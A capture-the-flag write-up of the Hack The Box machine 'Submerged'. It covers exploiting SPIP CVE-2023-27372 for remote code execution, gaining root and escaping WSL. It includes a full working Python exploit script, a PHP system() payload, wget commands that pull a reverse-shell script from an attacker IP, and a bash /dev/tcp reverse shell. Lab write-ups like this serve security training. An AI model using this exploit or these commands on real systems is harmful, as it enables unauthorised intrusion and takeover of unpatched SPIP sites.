

 
## Reconnaissance

### nmap 


### Web Service


> Find Subdomain 

```
http://spip.submerged.htb/
```




> Access these subdomain and enumerate it 
> Find an email 


> Find login page 


> Find reset password page


> Gobuster result for 2 different domain 
> But most of the page are not useful or I can't access successfully


## Exploit 

> With above enumeration
> The subdomain build up on SPIP framework 

- [SPIP v4.2.0 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/51536)
- [CVE-2023-27372: Remote Code Execution in SPIP](https://ethicalhacking.uk/cve-2023-27372-remote-code-execution-in-spip/#gsc.tab=0)
- [(GITHUB)CVE-2023-27372](https://github.com/nuts7/CVE-2023-27372)
- [(GITHUB)CVE-2023-27372](https://github.com/ThatNotEasy/CVE-2023-27372)
- [(GITHUB)CVE-2023-27372-PoC](https://github.com/0SPwn/CVE-2023-27372-PoC)

> I used most of the exploit code from internet. 
> but most of them are failed by some attributes are deprecated.
> I will get the following error message 

```
AttributeError: module 'urllib3.util.ssl_' has no attribute 'DEFAULT_CIPHERS'
```


> Then I tried to modify the exploit code 


```
import argparse
import bs4
import html
import requests
from requests.adapters import HTTPAdapter
from urllib3.poolmanager import PoolManager
from urllib3.util.ssl_ import create_urllib3_context

class SSLContextAdapter(HTTPAdapter):
    def __init__(self, ssl_context=None, **kwargs):
        self.ssl_context = ssl_context
        super().__init__(**kwargs)

    def init_poolmanager(self, *args, **kwargs):
        kwargs['ssl_context'] = self.ssl_context
        return super().init_poolmanager(*args, **kwargs)

def parseArgs():
    parser = argparse.ArgumentParser(description="Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found : %s" % csrf_value)
        return csrf_value
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = session.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload : %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    requests.packages.urllib3.disable_warnings()

    # 創建自定義 SSLContext
    context = create_urllib3_context()
    context.set_ciphers('HIGH:!DH:!aNULL')

    # 使用自定義 SSLContext 設置 HTTPAdapter
    session = requests.Session()
    adapter = SSLContextAdapter(ssl_context=context)
    session.mount('https://', adapter)

    csrf = get_anticsrf(url=options.url)
    send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))
```


> With this code, I can execute python without error message
> And ping command will work


> I also uploaded info.php
> And it works when I access it from browser

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/info.php' -v

```


> But I also tried to upload php web shell, it won't be execute --> Failed

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/shell.php' -v
```

> I tried to using /bin/bash to create reverse shell --> failed 

```
python exp2.py -u http://spip.submerged.htb -c 'sh -i >& /dev/tcp/10.10.14.17/1337 0>&1' -v
```


> Finally, I uploaded a reverse shell file 

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/rev.sh' -v
```


> Execute it 

```
python exp2.py -u http://spip.submerged.htb -c '/bin/bash rev.sh' -v
```


> Check cuurent user 


> Get user flag


## Privilege Escalation 

> Check sudo permission 


> I can get root with following command

```
sudo su
```


> But there is no flag in /root 


>  I start to enumerate all the directory, and some command to list some information 
>  I found this system is  linux based on Microsoft ...


>  But the directory looks like linux 
>  So, I think it might be a virtual machine based on Microsoft 
>  Then I check the /mnt and I find there is a c directory
>  But it's empty


> Then I think it might be wsl 
> Hence I check wsl.conf


> Following this video 

- [Tryhackme Weasel Walkthrough | How to escape WSL (Windows Subsystem for Linux) and jupyter notebook](https://www.youtube.com/watch?v=iu0_rqY2ds4)

> I used the command to remount the c directory 

```
mount -t drvfs 'c:' /mnt/c
```


> Then I can view the directory in windows C:/


> Find flag 


## Reference 


###### tags: `HackTheBox`